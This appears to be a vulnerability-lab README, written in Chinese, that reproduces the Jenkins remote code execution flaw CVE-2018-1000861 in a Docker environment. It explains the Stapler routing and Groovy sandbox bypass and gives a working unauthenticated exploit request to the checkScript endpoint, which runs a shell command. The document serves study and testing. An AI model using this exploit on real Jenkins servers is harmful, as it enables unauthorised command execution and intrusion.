


# Jenkins远程命令执行漏洞（CVE-2018-1000861）

Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。

参考链接：

- http://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html
- http://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html
- https://0xdf.gitlab.io/2019/02/27/playing-with-jenkins-rce-vulnerability.html

## 环境搭建

执行如下命令启动一个Jenkins 2.138，包含漏洞的插件也已经安装：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到一个已经成功初始化的Jenkins，无需再进行任何操作。

## 漏洞复现

使用 @orangetw 给出的[一键化POC脚本](https://github.com/orangetw/awesome-jenkins-rce-2019)，发送如下请求即可成功执行命令：

```
http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
}
```



`/tmp/success`已成功创建：


